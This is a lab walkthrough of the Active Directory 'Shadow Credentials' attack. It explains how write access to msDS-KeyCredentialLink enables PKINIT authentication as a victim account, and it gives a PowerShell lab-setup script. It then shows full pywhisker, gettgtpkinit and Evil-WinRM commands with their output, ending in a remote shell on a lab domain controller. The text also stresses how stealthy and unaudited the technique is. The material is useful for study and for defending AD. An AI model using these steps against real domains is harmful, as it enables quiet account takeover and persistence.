

# Shadow Credentials

For this we will first need write permissions over the `msDS-KeyCredentialLink` attribute of the victim account. This occurs when we have:

```cpp
GenericWrite      → over the victim account
GenericAll        → over the victim account
WriteProperty     → specifically over msDS-KeyCredentialLink
Owns the object   → you are the owner of the object
```

These misconfigured permissions are more common than they seem, especially on service accounts or when an admin delegates control over an OU without being granular.

It is based on Windows Hello for Business / PKINIT, a legitimate AD feature that allows authentication with a public/private key pair instead of a password. AD stores the public key in the `msDS-KeyCredentialLink` attribute of the object

```cpp
1. You have GenericWrite over "s.vim"
         ↓
2. You generate a public/private key pair
         ↓
3. You write your public key in msDS-KeyCredentialLink of s.vim
         ↓
4. You authenticate as s.vim using your private key (PKINIT)
         ↓
5. The KDC verifies your key against the public one stored in AD → valid TGT
         ↓
6. With that TGT you can do U2U (User-to-User) and obtain the NTLM hash of s.vim
```

**Why it is especially stealthy**

```cpp
Does not change the user's password    → the user keeps logging in normally
Does not create new accounts           → nothing suspicious in the logs
Does not modify groups                 → no visible changes in memberships
The victim account works               → nobody notices anything
normally
```

The only trace is the modification of the `msDS-KeyCredentialLink` attribute, which many environments do not audit

#### Important requirement

The important requirement for this attack is that the DC needs a valid certificate, specifically that AD CS (Active Directory Certificate Services) is configured. Without AD CS the KDC cannot process PKINIT authentication and the attack does not work

```powershell
Get-ADObject -Filter {objectClass -eq "pKIEnrollmentService"} `
 -SearchBase "CN=Configuration,DC=burned,DC=corp"
```

**PKINIT authentication flow**

```cpp
1. Client generates a structure called AuthPack
   containing a timestamp and client data

2. Client signs the AuthPack with its Private Key
         ↓
3. AS-REQ goes to the KDC with:
   - The signed AuthPack
   - The certificate with the Public Key

4. KDC looks up the user's Public Key in msDS-KeyCredentialLink
         ↓
5. KDC verifies the AuthPack signature with that Public Key
   "Was this signature made with the corresponding Private Key?"
         ↓
6. If valid → the KDC knows you are who you claim to be
         ↓
7. KDC returns the AS-REP with the TGT
   encrypted with a session key derived from the exchange
```

Let's quickly create a "Lab" with this script in PowerShell:

```powershell
$victim = "svc_mssql"
$delegate = "s.vim"

$victimDN = (Get-ADUser $victim).DistinguishedName
$delegateSID = (Get-ADUser $delegate).SID

$acl = Get-Acl "AD:$victimDN"

$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    $delegateSID,
    "WriteProperty",
    "Allow",
    [GUID]"5b47d60f-6090-40b2-9f37-2a4de88f3063"  # GUID of msDS-KeyCredentialLink
)

$acl.AddAccessRule($rule)
Set-Acl "AD:$victimDN" $acl
```

Of course, what we need to do now is generate a `Private/Public` key pair, modify the `msDS-KeyCredentialLink` attribute of the `as.rep` account to point to our `Public Key` and log in via PKINIT. Let's try it

* Now let's install PyWhisker: https://github.com/ShutdownRepo/pywhisker and run it:

```cpp
svim @Burned in Desktop/burned/nmap ❯ python3 pywhisker/pywhisker/pywhisker.py -t "as.rep" -u 's.vim' -p 'snake123' -d 'BURNED.CORP' -k -a 'add' --filename keys/
/home/svim/Desktop/burned/nmap/pywhisker/pywhisker/pywhisker.py:278: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
[*] Searching for the target account
[*] Target user found: CN=AS-REP,CN=Users,DC=burned,DC=corp
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9db38977-26fb-e749-1598-5736afc9d9fb
[*] Updating the msDS-KeyCredentialLink attribute of as.rep
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: keys/.pfx
[+] PFX exportiert nach: keys/.pfx
[i] Passwort für PFX: YAcQR7eBXfC5DE6t7aEF
[+] Saved PFX (#PKCS12) certificate & key at path: keys/.pfx
[*] Must be used with password: YAcQR7eBXfC5DE6t7aEF
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```cpp
pywhisker did:
1. Generated Private/Public key pair
2. Wrote the Public Key in msDS-KeyCredentialLink of as.rep
3. Delivered:
   - keys/.pfx     → Private Key + X.509 certificate, encrypted with password
   - keys/_cert.pem → only the X.509 certificate in plain text
   - YAcQR7eBXfC5DE6t7aEF → password to decrypt the PFX
```

For the next step `gettgtpkinit` we only need the PFX and the password, which has everything needed inside

```cpp
svim @Burned in PKINITtools on  master ❯ python3 gettgtpkinit.py 'BURNED.CORP'/'as.rep' -cert-pfx ../keys/.pfx -pfx-pass 'YAcQR7eBXfC5DE6t7aEF' -dc-ip '192.168.20.52' as.rep.ccache
2026-06-10 01:08:50,782 minikerberos INFO     Loading certificate and key from file
2026-06-10 01:08:50,806 minikerberos INFO     Requesting TGT
2026-06-10 01:08:50,819 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-06-10 01:08:50,819 minikerberos INFO     6848d75f2b162ec96c43b98c5c462cbc185cbb9cfd2cdbf4d791bb68746e1252
2026-06-10 01:08:50,827 minikerberos INFO     Saved TGT to file
```

We would have the TGT. We simply export it in our `KRB5CCNAME` environment variable:

```c
svim @Burned in PKINITtools on  master ❯ export KRB5CCNAME=as.rep.ccache
svim @Burned in PKINITtools on  master ❯ klist
Ticket cache: FILE:as.rep.ccache
Default principal: as.rep@BURNED.CORP

Valid starting       Expires              Service principal
06/10/2026 01:08:51  06/10/2026 11:08:51  krbtgt/BURNED.CORP@BURNED.CORP
```

And we would have a `ccache` of the `as.rep` user to authenticate via `Kerberos`. We simply configure `/etc/krb5.conf`:



And we log in with `Evil-WinRM`:

```cpp
svim @Burned in PKINITtools on  master ❯ evil-winrm -i 192.168.20.52 -r BURNED.CORP -K as.rep.ccache
...
*Evil-WinRM* PS C:\Users\as.rep\Documents>
```

(It is not necessary to export the `.ccache` in `KRB5CCNAME`)

And this would be `ShadowCredentials`.
